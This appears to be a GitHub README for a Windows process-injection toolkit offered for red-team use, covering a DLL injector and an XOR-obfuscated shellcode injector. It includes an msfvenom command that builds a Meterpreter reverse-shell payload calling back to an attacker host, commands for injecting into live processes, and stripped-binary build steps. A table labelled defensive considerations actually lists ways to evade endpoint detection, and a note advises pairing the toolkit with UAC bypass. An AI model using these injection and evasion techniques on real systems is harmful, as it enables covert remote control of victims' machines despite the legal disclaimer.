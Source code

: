 # Process-Inject 🔧 | Windows Injection Toolkit

Tools for implementing Windows processes, including implementing DLL libraries and implementing XOR-encrypted shellcode. Includes architecture verification and error handling

![GitHub](https://img.shields.io/badge/Language-C++-blue) 
![License](https://img.shields.io/badge/License-MIT-green) 
![Platform](https://img.shields.io/badge/OS-Windows-lightgrey)

<h2 align="center">⚠️ Legal & Ethical Warning</h2> 
<strong>This project is for educational and authorized security research only.</strong> Unauthorized use, including but not limited to attacking systems without explicit owner consent, is strictly prohibited and violates international cybercrime laws 

**By using this toolkit, you agree to:**
1. **Legal Compliance**: Use only on systems you own or have written authorization to test
2. **Ethical Responsibility**: Never engage in malicious activities or data destruction
3. **Full Liability**: Assume all legal/financial consequences for misuse


## 🛠️ Core Features

| **Feature**              | **DLL Injector**                        | **Shellcode Injector**                        |
|--------------------------|-----------------------------------------|-----------------------------------------------|
| **Injection Method**     | `CreateRemoteThread` + `LoadLibraryW`   | Direct memory execution + XOR decryption      |
| **Payload Delivery**     | On-disk DLL                             | Fully in-memory                               |
| **Memory Protection**    | `PAGE_READWRITE`                        | `PAGE_EXECUTE_READWRITE` (DEP bypass)         |
| **Architecture Control** | Manual matching required                | Auto-detection via `IsWow64Process`           |
| **Obfuscation**          | None                                    | XOR encryption (key: `0xAA`)                  |
| **Payload Types**        | Standard DLLs                           | Staged/Non-staged (CS/Meterpreter compatible) |
| **Error Reporting**      | Win32 error codes                       | Detailed codes + execution timeout            |
| **Cleanup**              | Full handle/memory release              | Post-execution sanitization                   |
| **Ideal For**            | Game modding, debug hooks               | Red team operations, EDR research             |

## 🎯 Usage Scenarios

### DLL Injection
**Test DLL Creation:**
```cpp
// test_dll.cpp
#include <windows.h>
extern "C" __declspec(dllexport) void EntryPoint() {
    MessageBoxA(0, "Injected!", "Success", MB_OK);
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason, LPVOID lpReserved) {
    if (ul_reason == DLL_PROCESS_ATTACH) EntryPoint();
    return TRUE;
}
```
**Execution:**
```bash
.\dll-injector.exe (Get-Process notepad).Id "C:\test-payload.dll"
```

### Shellcode Injection
**Payload Generation:**
```bash
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=666 -f type
```
**Code Integration:**
```cpp
// shellcode-injector.cpp
unsigned char shellcode[] = { 
    ...
};
```
**Execution:**
```bash
shellcode-injector.exe 1472
```
<h1 align="center">
    <a href="https://github.com/Untouchable17/Windows-DLL-Shellcode-Injection-Toolkit">
        <img src="https://i.ibb.co/KkKZVkS/photo-shellcode.jpg" width="700">
    </a>
</h1>


## 🛠️ Compilation Guide

### **DLL Injector**
```bash
# x64
x86_64-w64-mingw32-g++ dll-injector.cpp -o dll-injector.exe -static -lws2_32 -s -Os

# x86
i686-w64-mingw32-g++ dll-injector.cpp -o dll-injector32.exe -static -lws2_32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

### **Shellcode Injector**
```bash
# x64
x86_64-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector.exe -static -lwin32 -s -Os

# x86
i686-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector32.exe -static -lwin32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

## 🛡️ Defensive Considerations
| **Technique**             | **Detection Risk**         | **Mitigation Tips**                                                |
|---------------------------|----------------------------|--------------------------------------------------------------------|
| **Classic DLL Injection** | High                       | Use reflective DLL loading                                         |
| **XOR Encryption**        | Medium                     | Implement AES + runtime key derivation                             |
| **RWX Memory**            | Critical                   | Use NTAPI calls `NtAllocateVirtualMemory` + memory section mapping |
| **Remote Threads**        | High                       | Leverage process hollowing or APC queue injection                  |


### ⚠️ Important Notes
- **EDR Bypass:** This toolkit does not implement advanced evasion techniques. Always:
    - Test in isolated environments 
    - Combine with process spoofing/UAC bypass
    - Use custom syscalls instead of WinAPI
- **Shellcode Requirements:**
    - Position-independent (PIC)
    - Null-byte free (if using XOR)
- **Debugging:**
```cpp
#ifdef _DEBUG
printf("[+] Allocated memory at 0x%p\n", remoteBuffer);
#endif
```
